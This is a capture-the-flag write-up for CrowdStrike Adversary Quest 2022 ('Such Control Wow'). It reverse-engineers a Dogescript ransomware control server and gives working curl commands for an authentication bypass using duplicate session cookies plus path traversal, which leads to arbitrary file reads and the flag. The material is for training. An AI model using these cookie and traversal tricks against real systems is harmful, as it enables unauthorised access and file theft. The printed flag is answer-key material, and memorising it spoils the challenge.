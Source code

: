 # Crowdstrike Adversary Quest 2022 / Catapult Spider / #2 Such Control Wow

## Challenge Description

The ransomware was installed on a customer’s computer via a malicious CHM file. The PowerShell script that you analyzed previously installed multiple second stage binaries, including a binary that enables CATAPULT SPIDER to control the execution of the ransomware. The ransomware has locked the customer completely out of their machines and encrypted their data. The customer does not want to pay the ransom and has asked us for help in unlocking one of their systems. Can you find a way to unlock the machine without paying the ransom? We have obtained a version of the control binary for you to analyze. The locked machine is reachable at the IP 116.202.161.100.

## Pre-Requisites

```txt
$ sudo npm install -g dogescript
```

## TL;DR Summary

- The supplied server/control binary is a compiled node.js application written in Dogescript.
- The authentication checks can be bypassed with two Cookies with the same name **session**.
- Exploiting a directory traversal vulnerability in the authentication function's code allows execution of the control functions.
- Using the server function **readfile**, the flag file can be read remotely.

## Analysis

The file **control.exe** is quite large, roughly 50 MiB. It is a 64 Bit Windows PE executable.

```txt
$ file control.exe 
control.exe: PE32+ executable (console) x86-64, for MS Windows
```

Strings output yields Dogescript (some _fun_ language that compiles into javascript) at the end of the file. We can manually copy/dump the dogescript to a file called [**dogescript.djs**](./dogescript.djs).

Catapult Spider has been known to use compiled node.js binaries with Dogescript in the past as well, so that's not a surprise. ;-) See CrowdStrike's Adversary Quest 2021, Challenge 2 ("Very Protocol") of Catapult Spider track.

Compile the Dogescript to JavaScript with `dogescript dogescript.djs > javascript.js` and beautify it a bit with Notepad++ JS-Tool/Format to [**javascript_formatted.js**](./javascript_formatted.js).

The script seems to listen on port 8124.

First connection:

```txt
$ curl http://116.202.161.100:8124
Nothing here.
```

Reaction **Nothing here** came from line 477 of javascript_formatted.js.

The script seems to implement the following commands

- auth (lines 144+, methods GET and POST)
- readfile (lines 210+, method GET)
- dirlist (lines 272+, method GET)
- unlock (lines 323+, method GET)
- decrypt (lines 365+, method GET)
- wipe (lines 420+, method GET)
- logout (lines 455+)

Trying to retrieve a directory listing from the current working directory could work like this:

```txt
$ curl http://116.202.161.100:8124/dirlist?dir=.
Not authorized.
```

To be able to use the commands, the condition `if (user != null && authorized)` has to evaluate to true. `user` is derived from `user = getUserSession(cookies['session']);` and `authorized` from `authorized = checkAuth(request);`

### Closer Look at sessionid Generation and Usage

A new `sessionid` would be created, if we were able to call the `/auth` command. If we supply the correct username and password, `createSession(user, request.socket.remoteAddress);` is called. The resulting `sessionid` is then used as a Cookie.

Since the password is set randomly to a 20 byte long value, there is no point in trying to guess that (line 13).

How are sessions created?

```javascript
function createSession(user, ip) {
    var rand = Math.floor(Math.random() * 32000);
    var sessionbfr = Buffer.from(`${user}/${ip}/${rand}`);
    var b64_session = sessionbfr.toString('base64')
        .replace(/\+/g, '-')
        .replace(/\//g, '_');
    var content = JSON.stringify({
        'user': user,
        'ip': ip
    });
    fs.writeFileSync(path.join(AuthStore, b64_session), content);
    return b64_session;
}
```

The string `sessionbfr` contains username, ip-address and a random value concatenated with slashes. It is base64 encoded (url-safe) and then used as a filename (`b64_session`). Since `AuthStore` has the value of `/tmp/sessions/` (line 9), a JSON string with user and ip values is written to the file path `/tmp/sessions/` concatenated with value of `b64_session`.

How are session values checked? The function `getUserSessions` is called with the cookie value `session`.

```javascript
function getUserSession(session) {
    try {
        var sessionbfr = Buffer.from(session.replace(/-/g, '+').replace(/_/g, '/'), 'base64');
        var sessionstr = sessionbfr.toString('utf8');
    } catch (err) {
        console.error(`Failed\x20to\x20get\x20user:\x20${err}`);
        return null;
    }
    var parts = sessionstr.split('/');
    if (parts.length != 3) {
        return null;
    }
    return parts[0];
}
```

The session cookie value is base64 decoded, split at slash characters. It has to only contain two slashes so it splits in exactly three parts. The first part is returned as the username. It is not checked, if the corresponding session file exists in the `AuthStore`.

So in order to fill the variable `user = getUserSession(cookies['session']);`, we could just supply any base64 encoded (url-safe) string like `dummy//`, which encodes to `ZHVtbXkvLw==`

### Closer look at function checkAuth

Additionally, we need to have the function `checkAuth` return `true` in order to be allowed to execute commands.

```javascript
function checkAuth(request) {
    var rc = request.headers.cookie;
    if (!rc) {
        return false;
    }
    var cookies = rc.split(';');
    for (const cookie of cookies) {
        var parts = cookie.split('=');
        if (parts.shift().trim() === 'session') {
            var session = decodeURI(parts.join('='))
                console.log('Session: ' + session);
            var sessionPath = path.join(AuthStore, session)
                console.log('Path: ' + sessionPath);
            if (fs.existsSync(sessionPath)) {
                console.log('File exists.');
                return true;
            }
        }
    }
    return false;
}
```

This function parses the list of all cookie values, looking for a session cookie (as well). It evaluates if a file at `path.join(AuthStore, session)` exists and then returns true.

While we are unable to guess existing sessionid values in the `AuthStore`, `path.join` seems vulnerable to a directory traversal attack.

If we could create a path to an existing file, `checkAuth` will return true. Line 11 yields `UNLOCK_FILE = 'C:\\Windows\\flag.txt';`, which could be used for this approach.

#### Executing our first Command

In order to execute a command, we need to set two cookie values - both named `session`.

- One has to fulfill the requirements for `checkAuth` (directory traversal to a file path we know exists on the host)
- The other has to yield a username for `getUserSessions` (base64 url-safe encoded string with two slashes)

While `checkAuth` iterates over all cookies, `getUserSessions` is called with `cookies['session']`. For this approach to work out, the order of the cookies with the same name `session` might be relevant. Which one does node.js return for `getUserSessions`: the first or last occurrence?

```txt
$ curl --cookie "session=ZHVtbXkvLw==;session=../../Windows/flag.txt" http://116.202.161.100:8124/dirlist?dir=.
Not authorized.

$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/dirlist?dir=.
such "Directory" is "." next "Listing" is so "control.js" next "node_modules" next "server.djs" many wow
```

Awesome!

#### Executing some commands

Now that we can execute commands, let's poke around...

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=./control.js
const lefs = require('fs'); const ledogescript = require('dogescript'); var doge_file = lefs.readFileSync('./server.djs').toString('utf-8'); const the_doge = eval(ledogescript(doge_file));
```

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/unlock
such "unlock" is "Rvq8/ZXdIFwKaCjbM8AAvfWyaO8f5AEMfUOJwX+ERHc=" next "date" is "Wed Jul 13 2022 13:09:33 GMT-0700 (Pacific Daylight Time)" wow
```

That is supposedly the base64 value of the SHA256 hash of the flag. Not very helpful... (see function `unlock`, lines 94+).

## Now it's Flag Time!

```txt
$ curl --cookie "session=../../Windows/flag.txt;session=ZHVtbXkvLw==" http://116.202.161.100:8124/readfile?filename=../../../Windows/flag.txt
CS{such_m4ny_C00kies_c0nfUs3d_w0w}
```

Flag: **CS{such_m4ny_C00kies_c0nfUs3d_w0w}**
